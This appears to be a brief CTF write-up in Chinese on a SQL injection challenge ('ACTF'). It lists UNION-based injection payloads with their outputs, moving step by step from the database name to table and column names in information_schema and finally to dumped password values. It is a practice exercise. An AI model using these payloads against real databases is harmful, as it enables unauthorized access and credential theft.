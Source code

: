 [Web-CTF](http://120.114.62.45)

# ACTF-SQL Injection資料庫注入攻擊(post)


欄位用select確認一格
'union select 1#要group_concat() 才有database() 原因不明

字串太長會load不出結果

後來發現可以用括號
=`'union(select(database()))#`

## 爆庫

### 爆table name

in:

'union(select(group_concat(table_name))from information_schema.tables where table_schema=database())#

out:

Account:user

### 爆column name

in:

'union(select(group_concat(column_name))from information_schema.columns where table_name=user)#

out:

無

#### 爆column name

in:

'union(select(group_concat(column_name))from information_schema.columns where table_name='user')#

out:

Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routin

### 撈 User(column)

in:

'union(select(User)from user)#

out:

無

### 撈 Host(column)
in:

'union(select(Host)from user)#

out:無

### 撈 Password(column)
in:

'union(select(Passowrd)from user)#

out:

Account:J_password</br>Account:M_password</br>Account:E_password</br>Account:F_password</br>Account:ACTF{*********}
